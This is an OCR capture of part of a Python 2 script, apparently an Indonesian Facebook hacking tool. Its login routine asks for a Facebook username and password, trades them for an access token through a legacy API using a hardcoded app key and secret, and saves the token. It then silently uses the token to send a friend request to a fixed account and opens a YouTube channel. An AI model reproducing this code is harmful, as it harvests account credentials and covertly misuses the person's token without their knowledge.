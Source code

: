 listgrup = []
vulnot = '\x1b[31mNot Vuln'
vuln = '\x1b[32mVuln'


def login():
    os.system('clear')
    try:
        toket = open('login.txt', 'r')
        menu()
    except (KeyError, IOError):
        os.system('clear')
        print logo
        print 40 * '\x1b[1;97m\xe2\x95\x90'
        print '\x1b[1;91m[\xe2\x98\x86] \x1b[1;92mLOGIN AKUN FACEBOOK AKUN FB \x1b[1;91m[\xe2\x98\x86]'
        id = raw_input('\x1b[1;91m[+] \x1b[1;36mUsername FB \x1b[1;91m:\x1b[1;92m ')
        pwd = getpass.getpass('\x1b[1;91m[+] \x1b[1;36mPassword FB \x1b[1;91m:\x1b[1;92m ')
        tik()
        try:
            br.open('https://m.facebook.com')
        except mechanize.URLError:
            print '\n\x1b[1;91m[!] Tidak ada koneksi'
            keluar()

        br._factory.is_html = True
        br.select_form(nr=0)
        br.form['email'] = id
        br.form['pass'] = pwd
        br.submit()
        url = br.geturl()
        if 'save-device' in url:
            try:
                sig = 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail=' + id + 'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword=' + pwd + 'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
                data = {'api_key': '882a8490361da98702bf97a021ddc14d', 'credentials_type': 'password', 'email': id, 'format': 'JSON', 'generate_machine_id': '1', 'generate_session_cookies': '1', 'locale': 'en_US', 'method': 'auth.login', 'password': pwd, 'return_ssl_resources': '0', 'v': '1.0'}
                x = hashlib.new('md5')
                x.update(sig)
                a = x.hexdigest()
                data.update({'sig': a})
                url = 'https://api.facebook.com/restserver.php'
                r = requests.get(url, params=data)
                z = json.loads(r.text)
                zedd = open('login.txt', 'w')
                zedd.write(z['access_token'])
                zedd.close()
                print '\n\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mLogin berhasil'
                requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token=' + z['access_token'])
                os.system('xdg-open https://youtube.com/NjankSoekamti')
                time.sleep(2)
                menu()
            except requests.exceptions.ConnectionError:
                print '\n\x1b[1;91m[!] Tidak ada koneksi'
                keluar()
